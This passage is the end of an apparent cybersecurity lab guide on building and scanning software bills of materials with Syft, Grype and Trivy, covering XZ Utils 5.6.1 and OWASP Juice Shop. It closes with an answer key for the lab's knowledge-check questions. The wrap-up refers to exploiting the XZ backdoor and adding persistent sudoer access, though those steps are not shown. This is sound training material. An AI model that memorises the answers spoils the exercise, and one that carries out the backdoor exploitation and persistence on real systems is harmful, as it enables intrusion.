cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```



Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```



As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```



You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.



2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*


  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*


  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-XZ Utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>

